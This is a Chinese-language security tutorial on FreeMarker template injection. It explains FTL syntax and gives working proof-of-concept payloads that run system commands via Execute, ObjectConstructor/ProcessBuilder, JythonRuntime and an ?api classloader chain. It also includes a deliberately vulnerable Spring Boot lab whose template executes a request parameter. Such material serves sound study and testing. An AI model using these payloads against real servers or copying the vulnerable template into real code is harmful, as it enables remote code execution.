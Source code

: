 ```yaml
---
comments: true
---
```


# FreeMarker 模板注入

FreeMarker 是一款 模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本(HTML网页，电子邮件，配置文件，源代码等)的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。

模板编写为FreeMarker Template Language (FTL)。它是简单的、专用的语言，不是像PHP那样成熟的编程语言。这意味着要通过编程语言来准备数据，比如数据库查询和业务运算，之后模板负责显示。在模板中，你可以专注于如何展现数据，而在模板之外可以专注于数据的处理。

<figure markdown="span">
    ![](img/2.png){width=60% loading=lazy}
</figure>

## 基础语法

参考 [官方文档](https://freemarker.apache.org/docs/index.html)

**变量**

\${varname}

**条件语句**

```html
<#if condition>
    ...
<#elseif condition2>
    ...
<#elseif condition3>
    ...
<#else>
    ...
</#if>
```

**循环语句**

```html
<#list users as user>
    <p>${user}
</#list>
```

**include**

```html
<html>
    <head>
        <title>Test page</title>
    </head>
    <body>
        <h1>Test page</h1>
        <p>Blah blah...
        <#include "/test.html">
    </body>
</html>
```

## 内置函数

FreeMarker 内置了 new 函数，可以创建任意实现了`TemplateModel`接口的Java对象，同时还可以触发没有实现`TemplateModel`接口的类的静态初始化块。

主要的利用例如：

```html title="PoC"
<!-- assign 为赋值操作 -->

<!-- 执行系统命令 -->
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}

<!-- 实例化对象 -->
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()

<!-- 执行 Python 代码 -->
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## API

`value?api` 提供对 value 的 API（通常是 Java API）的访问，例如 `value?api.someJavaMethod()` 或 `value?api.someBeanProperty`。可通过 `getClassLoader`获取类加载器从而加载恶意类，或者也可以通过 `getResource`来实现任意文件读取。

但是，当`api_builtin_enabled`为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。

```html title="PoC"
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

## 漏洞复现

=== "freemarker"

    ```java
    package cc.colemak.springssti;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;

    @SpringBootApplication
    public class freemarker {
        public static void main(String[] args) {
            SpringApplication.run(freemarker.class, args);
        }
    }
    ```

=== "TemplateController"

    ```java
    package cc.colemak.springssti.controller;

    import freemarker.cache.StringTemplateLoader;
    import org.springframework.ui.Model;
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RequestParam;

    import java.util.Map;


    @Controller
    public class TemplateController {
        @RequestMapping(value = "/rce")
        public String rce(@RequestParam("cmd") String cmd, Model model)
        {
            model.addAttribute("cmd",cmd);
            return "rce";
        }
    }
    ```

=== "/resources/templates/rce.ftl"

    ```html
    <!DOCTYPE html>
    <html lang=\"en\">
    <head>
        <meta charset=\"UTF-8\">
        <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("${cmd}") }
        <title>Hello!</title>
    </head>
    <body>
    <h2 class=\"hello-title\">Hello!</h2>
    </body>
    </html>
    ```

=== "pom.xml"

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>
        <parent>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-parent</artifactId>
            <version>3.3.2</version>
            <relativePath/> <!-- lookup parent from repository -->
        </parent>
        <groupId>cc.colemak</groupId>
        <artifactId>SpringSSTI</artifactId>
        <version>0.0.1-SNAPSHOT</version>
        <name>SpringSSTI</name>
        <description>SpringSSTI</description>
        <url/>
        <licenses>
            <license/>
        </licenses>
        <developers>
            <developer/>
        </developers>
        <scm>
            <connection/>
            <developerConnection/>
            <tag/>
            <url/>
        </scm>
        <properties>
            <java.version>22</java.version>
        </properties>
        <dependencies>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-freemarker</artifactId>
            </dependency>
            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-web</artifactId>
            </dependency>

            <dependency>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-test</artifactId>
                <scope>test</scope>
            </dependency>
        </dependencies>

        <build>
            <plugins>
                <plugin>
                    <groupId>org.springframework.boot</groupId>
                    <artifactId>spring-boot-maven-plugin</artifactId>
                </plugin>
            </plugins>
        </build>

    </project>
    ```

=== "application.properties"

    ```properties
    spring.application.name=SpringSSTI
    server.port=8086
    spring.freemarker.suffix=.ftl
    ```

**复现成功**
![alt text](img/3.png)

freemarker 模板注入需要控制 ftl 模板内容，仅靠传参无法实现，因此较难利用。

## 参考资料

[Java安全之 freemarker 模板注入](https://www.cnblogs.com/nice0e3/p/16217471.html)
